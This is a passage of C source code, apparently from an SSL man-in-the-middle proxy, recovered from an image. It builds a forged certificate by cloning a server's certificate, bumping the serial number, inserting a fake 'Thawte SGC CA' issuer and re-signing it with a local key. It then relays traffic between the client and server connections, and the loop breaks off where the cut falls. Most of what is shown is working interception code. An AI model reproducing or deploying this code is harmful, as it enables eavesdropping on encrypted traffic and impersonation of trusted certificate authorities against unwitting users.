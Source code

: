 }

void SSL_terminal(SSL *ssl) {
    SSL_CTX *ctx = SSL_get_SSL_CTX(ssl);
    SSL_shutdown(ssl);
    SSL_free(ssl);
    if (ctx)
        SSL_CTX_free(ctx);
}

EVP_PKEY* create_key() {
    EVP_PKEY *key = EVP_PKEY_new();
    RSA *rsa = RSA_new();
    FILE *fp;
    if ((fp = fopen("private.key", "r")) == NULL)
        error("private.key");
    PEM_read_RSAPrivateKey(fp, &rsa, NULL, NULL);
    if ((fp = fopen("public.key", "r")) == NULL)
        error("public.key");
    PEM_read_RSAPublicKey(fp, &rsa, NULL, NULL);
    EVP_PKEY_assign_RSA(key,rsa);
    return key;
}

X509* create_fake_certificate(SSL* ssl_to_server, EVP_PKEY *key) {
    unsigned char buffer[128] = { 0 };
    int length = 0, loc;
    X509 *server_x509 = SSL_get_peer_certificate(ssl_to_server);
    X509 *fake_x509 = X509_dup(server_x509);
    if (server_x509 == NULL)
        SSL_Error("Fail to get the certificate from server!");
//    X509_print_fp(stderr, server_x509);
    X509_set_version(fake_x509, X509_get_version(server_x509));
    ASN1_INTEGER *a = X509_get_serialNumber(fake_x509);
    a->data[0] = a->data[0] + 1;
//    ASN1_INTEGER_set(X509_get_serialNumber(fake_x509), 4);
    X509_NAME *issuer = X509_NAME_new();
//    length = X509_NAME_get_text_by_NID(issuer, NID_organizationalUnitName,
//            buffer, 128);
//    buffer[length] = ‘ ‘;
//    loc = X509_NAME_get_index_by_NID(issuer, NID_organizationalUnitName, -1);
//    X509_NAME_delete_entry(issuer, loc);
    X509_NAME_add_entry_by_txt(issuer, "CN", MBSTRING_ASC, "Thawte SGC CA", -1, -1, 0);
    X509_NAME_add_entry_by_txt(issuer, "O", MBSTRING_ASC, "Thawte Consulting (Pty) Ltd.",
        -1, -1, 0);
    X509_NAME_add_entry_by_txt(issuer, "OU", MBSTRING_ASC, "Thawte SGC CA", -1, -1, 0);
    X509_set_issuer_name(fake_x509, issuer);
//    X509_set_notBefore(fake_x509, X509_get_notBefore(server_x509));
//    X509_set_notAfter(fake_x509, X509_get_notAfter(server_x509));
//    X509_set_subject_name(fake_x509, X509_get_subject_name(server_x509));
    X509_set_pubkey(fake_x509, key);
//    X509_add_ext(fake_x509, X509_get_ext(server_x509, -1), -1);
    X509_sign(fake_x509, key, EVP_sha1());
//    X509_print_fp(stderr, fake_x509);
    return fake_x509;
}

int transfer(SSL *ssl_to_client, SSL *ssl_to_server) {
    int socket_to_client = SSL_get_fd(ssl_to_client);
    int socket_to_server = SSL_get_fd(ssl_to_server);
    int ret;
    char buffer[4096] = { 0 };
    fd_set fd_read;
    printf("%d, waiting for transfer\n", sum);
    while (1) {